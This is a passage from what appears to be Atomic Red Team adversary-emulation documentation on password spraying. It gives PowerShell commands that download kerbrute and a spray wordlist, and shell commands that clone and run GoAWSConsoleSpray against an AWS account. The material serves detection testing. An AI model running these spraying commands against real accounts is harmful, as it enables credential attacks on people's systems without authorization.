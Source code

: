 ##### Check Prereq Commands:

```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"){exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_386.exe" -outfile "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"
```

##### Description: passwordspray.txt must exist in PathToAtomicsFolder\..\ExternalPayloads

##### Check Prereq Commands:

```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\passwordspray.txt"){exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1110.003/src/passwordspray.txt?raw=true" -outfile "PathToAtomicsFolder\..\ExternalPayloads\passwordspray.txt"
```

<br/>
<br/>

## Atomic Test #9 - AWS - Password Spray an AWS using GoAWSConsoleSpray

GoAWSConsoleSpray is a tool that can be used to spray AWS IAM Console Credentials in order to identify a valid login for a user account built by WhiteOakSecurity. For more details reagrding the tool, check - https://www.whiteoaksecurity.com/blog/goawsconsolespray-password-spraying-tool/

**Supported Platforms:** Iaas:aws

**auto_generated_guid:** 9c10d16b-20b1-403a-8e67-50ef7117ed4e

#### Inputs:

| Name           | Description           | Type   | Default Value |
| -------------- | --------------------- | ------ | ------------- |
| aws_account_id | ID of the AWS account | string | XXXXXXXX      |

#### Attack Commands: Run with `sh`!

```sh
cd /tmp
git clone git@github.com:WhiteOakSecurity/GoAWSConsoleSpray.git
cd /tmp/GoAWSConsoleSpray
go run main.go GoAWSConsoleSpray -a #{aws_account_id} -u PathToAtomicsFolder/T1110.003/src/aws_users.txt -p PathToAtomicsFolder/T1110.003/src/aws_passwords.txt
```
